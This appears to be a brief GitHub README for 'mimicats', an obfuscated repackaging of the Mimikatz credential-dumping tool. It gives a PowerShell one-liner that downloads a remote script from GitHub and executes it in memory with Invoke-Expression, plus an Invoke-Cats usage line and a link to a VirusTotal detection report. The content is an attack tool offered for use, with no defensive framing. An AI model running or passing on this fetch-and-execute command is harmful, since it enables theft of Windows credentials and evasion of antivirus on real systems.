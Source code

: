 # mimicats
Mimikatz obfuscation

```
Invoke-Expression (New-Object Net.Webclient).downloadstring('https://raw.githubusercontent.com/Moon1705/mimicats/master/Mimicats.ps1')
Invoke-Cats -Command '"command"'
```
Report [VirusTotal](https://www.virustotal.com/gui/file/65505a6fa6b1e9921d2270821370c9b6156dce36c1a6f1f72dd7aec3e6c5cb46/detection)
